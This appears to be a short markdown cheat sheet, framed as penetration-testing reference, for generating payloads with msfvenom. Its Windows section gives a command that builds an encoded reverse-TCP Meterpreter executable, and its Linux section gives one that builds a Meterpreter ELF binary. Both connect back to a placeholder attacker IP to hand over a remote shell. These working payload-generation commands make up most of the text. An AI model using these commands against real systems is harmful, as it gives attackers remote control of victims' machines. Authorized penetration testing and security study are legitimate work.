 # MSFVenom Cheat Sheet
This sheet is for all of the use-case scenarios in which I have and will use MSFVenom during a penetration test for generating payloads for systems.
## WINDOWS
This section is for all Windows binary creation techniques used with MSFVenom
### Reverse Meterpreter
To make the victim server or system connect back to the attacker and send meterpreter to be spawned by the handler running on the attacker machine.
1. Generate the MSFVenom Reverse Meterpreter payload:

`./msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -b '\x00' -e x86/shikata_ga_nai -f exe -o /ftphome/shell.exe`

## LINUX
This section is for all LINUX binary creation techniques used with MSFVenom

`./msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=5555 -a x86 --platform=linux -f elf -b '\x00' -o shell.o`
